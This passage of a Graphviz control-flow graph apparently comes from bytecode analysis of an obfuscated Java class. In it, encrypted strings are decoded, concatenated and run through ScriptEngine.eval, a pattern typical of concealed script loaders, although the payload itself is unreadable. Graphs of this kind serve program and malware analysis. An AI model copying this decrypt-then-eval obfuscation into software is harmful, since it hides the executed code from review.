ub866\uc268\uc919\u66a2\u2850\ua1d4\ue895\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633c\u5141\u12f1\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25b\u96f1\ue5f9\u7699\uf512\uc386\u7c74\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02df\u2b7e\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fc\u800a\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c4\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6211\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d83\u2a8e\u7359\u4253\ua94c\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8b\ub57e\u9793\ue253\ud8d3\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958a\ua55a\u29b5\u545b\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8d\uf160\u8d7c\u3a47\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc78\ua4e9\u15fa\ub153\u7158\u011e\u7756\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2560\uf6a1\u1358\u601d\u9395\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e5\u9e60\ub902\u1dd7\ufc9e\u9e69\u1b00\ucad4\ucf3a\u869f\u1d42\ue00c\ucf8a\u00e7\u6326\ub9d0\uf4fe\ua2bf\u231c\uea6b\u3d0a\u2f36\ub011\ua175\ua016\u5a85\ue63e\ud4a3\ub018\u4e31\uaf8a\u2ada\u560e\uf784\udcd2\ubbbd\uad4c\u1fd3\u9bd9\u43d9\u7587\u1b70\u2695\u6f08\ue0d0\ua8af\udb4b\u020c\ub996\u4e53\uc5c0\ucfd4\ucad3\u9bed\u6f16\u74a7\ud8a9\u9f6a\u763f\u5919\udf52\u4d4c\u04d7\u2bbf\u5b79\u16dc\uf1ad\u6082\ubff8\uaa86\u422f\ue928\ue2cf\u2c27\ub52a\u6ec3\u4d36\u985c\u6929\u2641\u19a8\u1851\u9a24\uc75b\u7823\u7973\u9de6\ucab2\uffde\uf840\u0f19\udfc2\u475c\u33a7\ue530\u7570\u81f3\uc700\ufadb\u92f7\ua01e\uafd1\ua0d5\u5fb7\u4eb4\u0f5a\ubf0c\u6049\ubbc9\u87c3\ub2af\uea22\u3d99\u4890\ua47a\ud7ce\u51d4\ue01e\u4314\u018d\ud372\u5f45\u36ee\ue087\uc542\u0411\u5996\ub709\u1135\u737b\uca79\ud246\u8310\u0de5\u8864\ua72c\u9e79\u4b5b\u680c\u3ca8\u6690\u8d74\u3c9c\u1ddc\u13a5\uea48\u6a9a\u5ded\u650b\u8214\u7921\u0522\uec7a\u9072\ua95f\uc975\u30d5\u5ddf\ub4e6\u83f8\ud62f\u5a2f\u7089\u5a9a\u1606\ud63c\u1a1d\u93a8\uf1fc\u1b5a\u1c8f\u2d2a\u5456\u2151\u69f1\u0e2f\u04e4\u1dbf\uf329\u3a89\ue4c0\u6cd1\u83e1\u1391\u4a5c\ud785\u96fa\ufe9b\u5cbc\uea61\u624d\u4ec1\u1d3d\u1de7\u7fe7\ubac8\u1376\uce9a\u341b\u589f\u1785\u941b\u35fc\u4124\u80eb\ubc4b\u0cad\ud51f\ufe3b\ucb1e\u19b2\u72c3\u905d\ua785\ufa14\u9619\ueddc\u630b\ufd34\u6f5e\u5a93\u059b\ua333\u12cf\uc71d\uc044\u745d\u7a39\u37f8\u2df4\uf85b\u107c\u67df\ub5d6\u2795\u794f\u70be\ub88b\u3163\uebeb\u9cad\ue9b0\u8999\u590c\u799f\u73dd\ub9a9\ue5c6\u76fa\uf98d\u76fb\u6888\u8753\u2341\u504a\ue085\u7725\u6432\u25f2\ua253\uc271\ucedf\u744c\ua6ef\u0f65\u7bb0\u0710\u049e\u11a8\ue84b\u6290\u7e1b\u0390\u1694\u57e2\u119e\"";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0ffe\udc7c\ue676\u3335\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dd\uf354\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070d\u6a77\u444a\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0e\u189a\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237b\u39bf\uf233\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3515\ufab2\u325e\u28be\u9e68\ud061\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf538\ubaa8\ufb8e\u5bb5\u4890\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347f\uee75\u46d7\ud5d4\u5204\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df3\u0468\ue355\uf025\ud56b\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\ub866\uc268\uc919\u66a2\u2850\ua1d4\ue895\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633c\u5141\u12f1\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25b\u96f1\ue5f9\u7699\uf512\uc386\u7c74\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02df\u2b7e\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fc\u800a\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c4\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6211\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d83\u2a8e\u7359\u4253\ua94c\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8b\ub57e\u9793\ue253\ud8d3\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958a\ua55a\u29b5\u545b\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8d\uf160\u8d7c\u3a47\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc78\ua4e9\u15fa\ub153\u7158\u011e\u7756\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2560\uf6a1\u1358\u601d\u9395\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e5\u9e60\ub902\u1dd7\ufc9e\u9e69\u1b00\ucad4\ucf3a\u869f\u1d42\ue00c\ucf8a\u00e7\u6326\ub9d0\uf4fe\ua2bf\u231c\uea6b\u3d0a\u2f36\ub011\ua175\ua016\u5a85\ue63e\ud4a3\ub018\u4e31\uaf8a\u2ada\u560e\uf784\udcd2\ubbbd\uad4c\u1fd3\u9bd9\u43d9\u7587\u1b70\u2695\u6f08\ue0d0\ua8af\udb4b\u020c\ub996\u4e53\uc5c0\ucfd4\ucad3\u9bed\u6f16\u74a7\ud8a9\u9f6a\u763f\u5919\udf52\u4d4c\u04d7\u2bbf\u5b79\u16dc\uf1ad\u6082\ubff8\uaa86\u422f\ue928\ue2cf\u2c27\ub52a\u6ec3\u4d36\u985c\u6929\u2641\u19a8\u1851\u9a24\uc75b\u7823\u7973\u9de6\ucab2\uffde\uf840\u0f19\udfc2\u475c\u33a7\ue530\u7570\u81f3\uc700\ufadb\u92f7\ua01e\uafd1\ua0d5\u5fb7\u4eb4\u0f5a\ubf0c\u6049\ubbc9\u87c3\ub2af\uea22\u3d99\u4890\ua47a\ud7ce\u51d4\ue01e\u4314\u018d\ud372\u5f45\u36ee\ue087\uc542\u0411\u5996\ub709\u1135\u737b\uca79\ud246\u8310\u0de5\u8864\ua72c\u9e79\u4b5b\u680c\u3ca8\u6690\u8d74\u3c9c\u1ddc\u13a5\uea48\u6a9a\u5ded\u650b\u8214\u7921\u0522\uec7a\u9072\ua95f\uc975\u30d5\u5ddf\ub4e6\u83f8\ud62f\u5a2f\u7089\u5a9a\u1606\ud63c\u1a1d\u93a8\uf1fc\u1b5a\u1c8f\u2d2a\u5456\u2151\u69f1\u0e2f\u04e4\u1dbf\uf329\u3a89\ue4c0\u6cd1\u83e1\u1391\u4a5c\ud785\u96fa\ufe9b\u5cbc\uea61\u624d\u4ec1\u1d3d\u1de7\u7fe7\ubac8\u1376\uce9a\u341b\u589f\u1785\u941b\u35fc\u4124\u80eb\ubc4b\u0cad\ud51f\ufe3b\ucb1e\u19b2\u72c3\u905d\ua785\ufa14\u9619\ueddc\u630b\ufd34\u6f5e\u5a93\u059b\ua333\u12cf\uc71d\uc044\u745d\u7a39\u37f8\u2df4\uf85b\u107c\u67df\ub5d6\u2795\u794f\u70be\ub88b\u3163\uebeb\u9cad\ue9b0\u8999\u590c\u799f\u73dd\ub9a9\ue5c6\u76fa\uf98d\u76fb\u6888\u8753\u2341\u504a\ue085\u7725\u6432\u25f2\ua253\uc271\ucedf\u744c\ua6ef\u0f65\u7bb0\u0710\u049e\u11a8\ue84b\u6290\u7e1b\u0390\u1694\u57e2\u119e\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07e9\uc875\u4253\uf7d6\u09d2\uad59\u0e9e\u9548\u90ec\u5bfa\ue12d\ud73d\u3008\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07e9\uc875\u4253\uf7d6\u09d2\uad59\u0e9e\u9548\u90ec\u5bfa\ue12d\ud73d\u3008\"";
    "push \"\u07e9\uc875\u4253\uf7d6\u09d2\uad59\u0e9e\u9548\u90ec\u5bfa\ue12d\ud73d\u3008\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07fa\uc860\u4257\uf7cf\u09c5\uad43\u0e90\u9578\u90fa\u5ba0\ue13c\ud77a\u3054\u0aa9\u79ec\u44af\u9a9e\u2710\uc05c\u7c16\ue0c1\u4ab2\ud107\u6e49\u3dcb\u862c\u79b3\u1d6a\u0ff9\udc67\ue60b\u3365\uf79f\u1814\u8b70\u9ced\u2ec6\ud249\ue2bb\u5c14\ua212\uc30e\u6915\u2079\u3aa7\u66c2\uf317\u46f0\uc9af\ud2ea\uf3ca\uf299\uef5b\u906f\ufea8\u7153\u573e\ueefd\u1489\ud768\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07fa\uc860\u4257\uf7cf\u09c5\uad43\u0e90\u9578\u90fa\u5ba0\ue13c\ud77a\u3054\u0aa9\u79ec\u44af\u9a9e\u2710\uc05c\u7c16\ue0c1\u4ab2\ud107\u6e49\u3dcb\u862c\u79b3\u1d6a\u0ff9\udc67\ue60b\u3365\uf79f\u1814\u8b70\u9ced\u2ec6\ud249\ue2bb\u5c14\ua212\uc30e\u6915\u2079\u3aa7\u66c2\uf317\u46f0\uc9af\ud2ea\uf3ca\uf299\uef5b\u906f\ufea8\u7153\u573e\ueefd\u1489\ud768\"";
    "push \"\u07fa\uc860\u4257\uf7cf\u09c5\uad43\u0e90\u9578\u90fa\u5ba0\ue13c\ud77a\u3054\u0aa9\u79ec\u44af\u9a9e\u2710\uc05c\u7c16\ue0c1\u4ab2\ud107\u6e49\u3dcb\u862c\u79b3\u1d6a\u0ff9\udc67\ue60b\u3365\uf79f\u1814\u8b70\u9ced\u2ec6\ud249\ue2bb\u5c14\ua212\uc30e\u6915\u2079\u3aa7\u66c2\uf317\u46f0\uc9af\ud2ea\uf3ca\uf299\uef5b\u906f\ufea8\u7153\u573e\ueefd\u1489\ud768\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07f5\uc83e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07f5\uc83e\"";
    "push \"\u07f5\uc83e\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07ed\uc838\u424d\uf7df\u09c0\uad0d\u0ef5\u9559\u90fc\u5bbd\ue127\ud73c\u301a\u0abc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07ed\uc838\u424d\uf7df\u09c0\uad0d\u0ef5\u9559\u90fc\u5bbd\ue127\ud73c\u301a\u0abc\"";
    "push \"\u07ed\uc838\u424d\uf7df\u09c0\uad0d\u0ef5\u9559\u90fc\u5bbd\ue127\ud73c\u301a\u0abc\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07ed\uc82b\u424e\uf7df\u09c4\uad5e\u0ed1\u954c\u90eb\u5bef\ue121\ud77c\u305a\u0af4\u79b1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07ed\uc82b\u424e\uf7df\u09c4\uad5e\u0ed1\u954c\u90eb\u5bef\ue121\ud77c\u305a\u0af4\u79b1\"";
    "push \"\u07ed\uc82b\u424e\uf7df\u09c4\uad5e\u0ed1\u954c\u90eb\u5bef\ue121\ud77c\u305a\u0af4\u79b1\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07ed\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07ed\"";
    "push \"\u07ed\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r2"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <a: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u07c6\uc86a\u4257\uf7d0\u09c4\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u07c6\uc86a\u4257\uf7d0\u09c4\"";
    "push \"\u07c6\uc86a\u4257\uf7d0\u09c4\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
}
